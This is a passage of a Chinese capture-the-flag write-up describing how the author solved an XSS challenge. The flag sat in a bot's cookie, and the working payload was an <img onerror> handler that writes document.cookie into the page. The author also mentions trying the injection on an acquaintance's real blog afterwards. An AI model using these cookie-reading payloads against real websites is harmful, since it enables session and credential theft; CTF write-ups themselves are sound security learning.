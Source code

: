 再去看后端，用 webdriver 浏览了一个秘密网页，在 cookie 里放了个 flag ，然后又去访问了成绩页面，并且打印 `greeting` 和 `score` 。

因此首先想到的是把 cookie 放在 `greeting` 或者 `score` 里面，然后输出，火速做出了如下代码

```javascript
greeting = document.getElementById('greeting');
greeting.innerHTML=`${document.cookie}`;
```

放到浏览器控制台里试了一下，发现可行，但是要怎么注入呢？

先试了一下把上面代码放到表单的名字那里

```javascript
<script>
	greeting = document.getElementById('greeting');
	greeting.innerHTML=`${document.cookie}`;
<\script>
```

提交之后看 F12 ，代码确实提交上去了，但是似乎没有运行，代码颜色是黑色的，可能甚至没有被解析。

![20221027_19.png](https://s2.loli.net/2022/10/29/z1LhkKUrVJbym6Q.png)

去搜了一下“js注入，script没有被解析”，找到这一篇文章，提到前后端分离的方式可以避免这种注入。

<https://blog.csdn.net/qq_41914181/article/details/109131138>

那还能怎么注入？又试了一下向后端提交链接

```
javascript:{greeting=document.getElementById('greeting');greeting.innerHTML=`${document.cookie}`;}
```

结果提示 `JavaScript Error: Did you give me correct URL?` 

推测可能是刚开始访问的秘密链接里面没有 `greeting` 这个元素，就又尝试着在代码里创建这个元素，再把 cookie 写进去，也以失败告终。

于是笔者去搞了个 chromedriver ，在本机试了一下。

发现问题出在 webdriver 对 JS 命令进行 Get 操作的时候，浏览器会直接关闭，然后抛出异常。

这下地址栏 JS 注入也不管用了，无奈，继续去搜索“JS 注入 innerHTML”，找到了这样一篇文章

<https://blog.csdn.net/jimmyleeee/article/details/123003548>

去试一下，提交以下姓名

```javascript
<img src=x onerror={greeting=document.getElementById('greeting');greeting.innerHTML=`${document.cookie}`;}>
```

成功拿到 flag `flag{xS5_1OI_is_N0t_SOHARD_...}` 

（又学到了新知识，准备去 xls 的博客上玩玩注入

（玩完回来了，xls 的博客直接把 `onerror` 部分给删掉了

## 杯窗鹅影

这个题题目那么长，又是纯纯的 nc 题目，还打着 binary 标签，看一眼就觉得劝退。
